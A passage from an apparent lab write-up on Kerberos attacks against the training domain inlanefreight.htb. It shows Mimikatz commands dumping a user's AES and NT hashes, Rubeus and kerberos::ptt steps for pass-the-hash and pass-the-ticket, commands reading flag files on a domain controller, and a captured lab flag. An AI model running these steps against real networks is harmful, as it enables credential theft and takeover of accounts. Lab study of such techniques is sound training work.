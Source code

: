 ```cmd-session
privilege::debug
sekurlsa::ekeys
```

* john
  * aes256\_hmac: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
  * rc4\_hmac\_nt: **c4b0e1b10c7ce2c4723b4e2407ef81a2**
* `Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /rc4:c4b0e1b10c7ce2c4723b4e2407ef81a2 /ptt`
* `dir \DC01.inlanefreight.htb\john`
* `type \DC01.inlanefreight.htb\john\john.txt`

<figure><img src=".gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**Learn1ng\_M0r3\_Tr1cks\_with\_J0hn**</mark>

**Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt**

`privilege::debug`

`kerberos::ptt "C:\Users\Administrator.WIN01\Desktop[0;7500d]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"`

<figure><img src=".gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>

`exit`

`powershell`

`cd C:/john/`

`dir`

`type john.exe`

<figure><img src=".gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>
